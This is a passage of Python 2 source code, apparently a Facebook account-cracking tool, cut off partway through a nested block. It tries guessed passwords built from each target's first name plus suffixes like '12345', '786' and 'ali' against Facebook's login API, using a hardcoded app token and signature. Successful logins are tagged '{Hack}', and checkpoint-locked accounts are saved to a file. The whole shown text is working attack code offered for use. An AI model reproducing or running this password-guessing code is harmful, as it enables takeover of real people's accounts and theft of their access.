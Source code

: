 									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = (j['first_name']+'12345')
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = (j['first_name']+'786')
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = (j['first_name']+'ali')
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass7